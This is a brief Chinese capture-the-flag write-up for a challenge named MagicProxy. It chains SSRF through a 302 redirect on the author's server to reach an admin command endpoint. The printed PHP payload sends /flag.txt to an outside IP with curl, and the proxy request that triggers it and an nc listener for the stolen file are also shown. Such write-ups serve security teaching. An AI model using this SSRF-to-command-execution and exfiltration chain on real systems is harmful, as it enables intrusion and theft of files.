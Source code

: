 # 2022-国赛分区赛-Writeup

## MagicProxy

SSRF打admin执行命令，本地VPS搭一个302跳转来绕waf

```php
<?php
header("Location:http://127.0.0.1:8080/admin?command=curl%20http%3A%2F%2F121.5.169.223%3A39876%20-F%20file%3D%40%2Fflag.txt");
```

然后用proxy接口打过去，本地nc接受flag就行了：

```
/proxy?url=http://121.5.169.223:39354/test.php
```

![image-20220618110428428](2022-%E5%9B%BD%E8%B5%9B%E5%88%86%E5%8C%BA%E8%B5%9B-Writeup.assets/image-20220618110428428.png)